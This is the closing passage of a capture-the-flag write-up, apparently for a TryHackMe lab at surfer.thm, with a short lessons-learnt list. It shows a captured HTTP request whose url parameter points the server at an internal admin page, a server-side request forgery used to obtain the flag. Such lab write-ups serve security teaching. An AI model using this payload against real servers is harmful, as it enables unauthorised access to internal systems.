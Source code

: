 ```http
Content-Length: 44
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://surfer.thm
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://surfer.thm/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ee0e710c62bc20b8a1fb6b0e0974698a
Connection: close

url=http://localhost/internal/admin.php
```
### Notes
- a "Report generated for http://localhost/internal/admin.php" was obtained.
- Flag has been obtained.
- ![[Pasted image 20221126001519.png]]
# Lessons learnt
- Never user default credentials.
- Teams communications should be held through secured end-to-end encrypted channels and not through clear text.